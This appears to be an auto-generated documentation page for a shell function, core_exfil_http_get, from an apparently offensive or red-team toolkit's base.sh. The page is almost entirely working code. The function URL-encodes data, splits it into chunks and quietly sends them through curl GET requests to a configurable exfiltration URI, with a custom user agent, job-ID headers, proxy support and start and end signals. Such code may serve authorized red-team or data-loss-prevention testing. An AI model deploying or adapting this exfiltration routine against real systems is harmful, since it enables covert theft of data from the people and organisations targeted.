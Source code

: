 # Exfil Http Get

### Purpose
core_exfil_http_get function implementation from base.sh.

### Dependencies
| Type | Name | Value |
|------|------|-------|
| Global Variable | `CHUNK_SIZE` | 50 |
| Global Variable | `CMD_CURL` | "curl" |
| Global Variable | `CMD_SLEEP` | "sleep" |
| Global Variable | `ENCODING_TYPE` | "none" |
| Global Variable | `EXFIL_URI` | "" |
| Global Variable | `JOB_ID` | "" |
| Function | `core_exfil_http_get()` | For exfil http get |
| Function | `core_normalize_uri()` | For normalize uri |
| Function | `core_prepare_exfil_data()` | For prepare exfil data |
| Function | `core_url_safe_encode()` | For url safe encode |

<details>

```shell
core_exfil_http_get() {
local data="$1"
    local full_uri=$(core_normalize_uri "$EXFIL_URI")
    local proxy_arg=$(core_prepare_proxy_arg)
    local user_agent=$(core_get_user_agent)
    local exfil_data=$(core_prepare_exfil_data "$data")
    local encoded_data=$(core_url_safe_encode "$exfil_data")
    
    # Calculate chunk size based on URL length limits
                local max_url_length=1800
                local base_url_length=${#full_uri}
                local max_data_length=$((max_url_length - base_url_length - 50))  # 50 for other params
                local chunk_size=$CHUNK_SIZE
    
                if [ $max_data_length -lt $chunk_size ]; then
                    chunk_size=$max_data_length
                fi
                # Send start signal
                $CMD_CURL -s $proxy_arg $CMD_CURL_SECURITY $CMD_CURL_TIMEOUT \
                    -G \
                    -A "$user_agent" \
                    -H "X-Job-ID: $JOB_ID" \
                    --data-urlencode "signal=start" \
                    --data-urlencode "id=$JOB_ID" \
                    "$full_uri" > /dev/null 2>&1
                
    if [ $? -ne 0 ]; then
        return 1
    fi
    # Send data in chunks
    local chunk_num=0
    local start_pos=0
    local data_len=${#encoded_data}
    
                while [ $start_pos -lt $data_len ]; do
                    local chunk="${encoded_data:$start_pos:$chunk_size}"
                    start_pos=$((start_pos + chunk_size))
                    
                    $CMD_CURL -s $proxy_arg $CMD_CURL_SECURITY $CMD_CURL_TIMEOUT \
                        -G \
                        -A "$user_agent" \
                        -H "X-Job-ID: $JOB_ID" \
                        -H "X-Encoding: $ENCODING_TYPE" \
                        --data-urlencode "d=$chunk" \
                        --data-urlencode "id=$JOB_ID" \
                        --data-urlencode "chunk=$chunk_num" \
                        "$full_uri" > /dev/null 2>&1
            
            if [ $? -ne 0 ]; then
            return 1
                    fi
                    
                    $CMD_SLEEP 0.1  # Rate limiting
                    chunk_num=$((chunk_num + 1))
                done
                
    # Send end signal
                    $CMD_CURL -s $proxy_arg $CMD_CURL_SECURITY $CMD_CURL_TIMEOUT \
                        -G \
                        -A "$user_agent" \
                        -H "X-Job-ID: $JOB_ID" \
                        --data-urlencode "signal=end" \
                        --data-urlencode "id=$JOB_ID" \
                        --data-urlencode "chunks=$chunk_num" \
                        "$full_uri" > /dev/null 2>&1
                    
    return $?
}
```

</details> 
